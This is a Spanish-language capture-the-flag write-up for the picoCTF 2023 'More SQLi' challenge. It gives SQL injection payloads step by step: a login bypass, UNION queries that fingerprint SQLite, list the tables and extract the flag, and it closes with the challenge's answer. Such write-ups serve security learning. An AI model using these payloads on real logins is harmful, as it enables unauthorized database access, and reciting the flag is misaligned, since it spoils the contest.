 #### Descripción

¿Puedes encontrar la bandera en este sitio web? Intenta encontrar la bandera [aquí](http://saturn.picoctf.net:49302/).

## Solución



Después del inicio de la instancia, picoCTF le proporcionará un enlace a la instancia en ejecución.

El sitio tiene pantalla de inicio de sesión:

[![Screenshot of the login screen](https://github.com/DanArmor/picoCTF-2023-writeup/raw/main/Web%20Exploitation/More%20SQLi/1.jpg)](https://github.com/DanArmor/picoCTF-2023-writeup/blob/main/Web%20Exploitation/More%20SQLi/1.jpg)

Si escribe nombre de usuario y pasa, recibirá este mensaje.`user``user`

[![Screenshot of the login screen](https://github.com/DanArmor/picoCTF-2023-writeup/raw/main/Web%20Exploitation/More%20SQLi/2.jpg)](https://github.com/DanArmor/picoCTF-2023-writeup/blob/main/Web%20Exploitation/More%20SQLi/2.jpg)

Así que ahora vemos la consulta de la solicitud de inicio de sesión, obviamente es una pista para nosotros, porque cuando conocemos la consulta, podemos entrar fácilmente con

`'or 1=1;--` En el campo:`pass`

[![Screenshot of the login screen](https://github.com/DanArmor/picoCTF-2023-writeup/raw/main/Web%20Exploitation/More%20SQLi/3.jpg)](https://github.com/DanArmor/picoCTF-2023-writeup/blob/main/Web%20Exploitation/More%20SQLi/3.jpg)

Porque la consulta de resultados será algo como esto:

`SELECT id FROM users WHERE password = '' or 1=1;--' and username = '123'`

Podemos probar algunas consultas para averiguar, qué DB se utiliza, y con esta consulta:

`123' UNION SELECT 1, sqlite_version(), 3;--`

ahora sabemos que este sitio está usando SQLite.

[![Screenshot of the site](https://github.com/DanArmor/picoCTF-2023-writeup/raw/main/Web%20Exploitation/More%20SQLi/4.jpg)](https://github.com/DanArmor/picoCTF-2023-writeup/blob/main/Web%20Exploitation/More%20SQLi/4.jpg)

Ahora podemos enumerar todas las tablas con esta consulta

`123' UNION SELECT name, sql, null from sqlite_master;--`

[![Scrennshot of tables](https://github.com/DanArmor/picoCTF-2023-writeup/raw/main/Web%20Exploitation/More%20SQLi/5.jpg)](https://github.com/DanArmor/picoCTF-2023-writeup/blob/main/Web%20Exploitation/More%20SQLi/5.jpg)

Aquí está la bandera, vamos a por ella.

`123' UNION SELECT flag, null, null from more_table;--`

![[Pasted image 20250327124824.png]]
**Respuesta en el formato del concurso:** 
`picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_3b0fca37}`